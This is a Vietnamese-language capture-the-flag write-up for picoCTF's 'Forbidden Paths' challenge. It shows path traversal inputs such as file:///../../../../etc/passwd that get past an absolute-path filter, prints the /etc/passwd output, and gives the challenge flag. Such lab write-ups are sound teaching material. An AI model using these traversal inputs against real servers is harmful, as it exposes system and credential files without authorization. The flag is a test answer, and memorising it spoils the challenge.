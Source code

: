 # Write-up : Forbidden Paths 
---
### Description :
> Can you get the flag?
> We know that the website files live in /usr/share/nginx/html/ and the flag is at /flag.txt but the website is filtering absolute file paths. Can you get past the filter to read the flag?
### Hint :
> none
---
### Solution :
- Ngay từ mô tả của bài ta có thể thấy 1 đường dẫn `` /usr/share/nginx/html/ ``, nhìn khá là quen mắt
- Có thể đó là 1 đường dẫn đến thư mục html của linux, tôi thử tìm đường dẫn đó trong linux thì có xuất hiện và tôi thử mở 1 file trong đường dẫn đó thì trên trình duyệt có đường dẫn là ``` file:///usr/share/nginx/html/index.html ``` ( mở file trên trình duyệt bằng đường dẫn URL ) 
- Thử đọc các file cho sẵn thì hoàn toàn bình thường nhưng đọc file /flag.txt thì hoàn toàn không được vì bị filter đi 
#### Kết luận : có cho phép người dùng đọc file từ 1 đường dẫn URL đến file đó ( dự đoán ) 
> Nếu đọc file qua đường dẫn URL và dùng linux thì có khả năng bị `` Path Traversal ``

> Ta biết thêm website ở trong đường dẫn `` /usr/share/nginx/html/ ``

Test thử với đường dẫn URL là `` file:///../../../../etc/passwd `` thì có kết quả trả về là :
> Vì có khả năng các thư mục được lưu từ vị trí của website trở đi nên tôi đoán rằng file `` /etc/passwd `` có thể là cùng cấp với cấp thư mục con của đường dẫn đó.
```bash
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin
```
Tuyệt vời! 
Vậy thì lỗi `` Path Traversal `` có hoạt động, việc của chúng ta bây giờ chỉ cần tìm file `` /flag.txt ``

Thử với đường dẫn : ``` file:///../../../../flag.txt ``` thì ta nhận được flag của bài.
### Flag : `` picoCTF{7h3_p47h_70_5ucc355_6db46514} `` 
